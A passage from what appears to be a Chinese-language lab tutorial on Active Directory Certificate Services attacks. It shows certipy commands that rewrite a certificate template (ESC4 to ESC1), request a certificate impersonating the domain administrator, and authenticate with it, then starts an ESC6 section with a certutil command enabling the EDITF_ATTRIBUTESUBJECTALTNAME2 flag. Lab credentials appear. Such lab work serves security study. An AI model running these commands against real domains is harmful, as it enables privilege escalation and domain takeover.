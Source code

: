将其修改为 esc1

```plain
certipy template -username qxn@penson.org -password Penson@2016 永遠的神 -template PensonESC4 -dc-ip 192.168.142.21 -save-old
```

[![](assets/1708508972-7cb35dc44df42217367cb3e694bf0b0d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170432-0f8f45b4-cfcf-1.png)

然后用 esc1 的方式去请求证书

```plain
certipy req -u qxn@penson.org -p Penson@2016 永遠的神 -target 192.168.142.21 -ca penson-ADCS-CA -template PensonESC4 -upn administrator@penson.org
```

[![](assets/1708508972-d020c900ce8fa7ab9abdfb75e818542f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170451-1aecd21e-cfcf-1.png)

```plain
certipy auth -pfx administrator.pfx -dc-ip 192.168.142.20
```

[![](assets/1708508972-6913b4727b8027aa86b312d23403b03c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170500-2055cd3c-cfcf-1.png)

# ESC6

ESC6 是 CA 指定 EDITF\_ATTRIBUTESUBJECTALTNAME2 标志的时候。无论证书模板如何配置，此标志都允许登记者在所有证书上指定任意 SAN。该攻击与 ESC1 相同。

## 环境搭建

启用 EDITF\_ATTRIBUTESUBJECALTNAME2

```plain
certutil –setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2
```
